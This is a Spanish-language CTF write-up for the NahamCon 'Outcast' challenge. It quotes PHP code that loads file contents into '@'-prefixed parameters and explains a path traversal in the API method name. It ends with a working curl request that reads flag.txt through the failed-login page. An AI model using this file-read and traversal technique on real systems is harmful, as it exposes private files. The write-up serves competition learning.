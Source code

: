 # Outcast

Nos dan un endpoint /test que actua como cliente a una API con solo los metodos `getusers` y `getversion`. Podemos introducir un id de usuario, el metodo y unos parametros.

En el codigo php que nos dan de la api en "Download template code" se muestra que cualquier parametro que comience con '@/tmp/' se almacena en ese parametro el contenido del archivo si existe, no hay sanitizacion de entrada.
```php
		foreach ($data as $k => &$v) {
			if ( ($v) && (is_string($v)) && str_starts_with($v, '@') ) {
				$file = substr($v, 1);

				if ( str_starts_with($file, $this->path_tmp) ) {
					$v = file_get_contents($file);
				}
			}
			if (is_array($v) || is_object($v)) {
				$v = json_encode($v);
			}
		}
```

Como tampoco hay sanitizacion de entrada en el metodo se puede hacer un path traversal, si usamos el metodo "../login" se hace una peticion a "http://challenge.nahamcon.com:32569/api/../login" que se convierte en `http://challenge.nahamcon.com:32569/login`
```php
public function __call($apiMethod, $data = array()) {
    $url = $this->url . $apiMethod; 
```

En el login si fallamos el nombre de usuario se queda en el codigo devuelto, asi que añadimos el archivo flag.txt al parametro username. 

```
curl -X POST \
  'http://challenge.nahamcon.com:32569/test/index.php' \
  -H 'Host: challenge.nahamcon.com:32569' \
  -H 'Referer: http://challenge.nahamcon.com:32569/test/index.php' \
  -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36' \
  -F 'userid=test' \
  -F 'method=../login/' \
  -F 'parameters=username=@/tmp/../flag.txt&password=test' > response.html
```

![2025-05-26-161213_1153x386_scrot](https://github.com/user-attachments/assets/ac88026f-8f11-48ca-9994-87c4f96295c1)
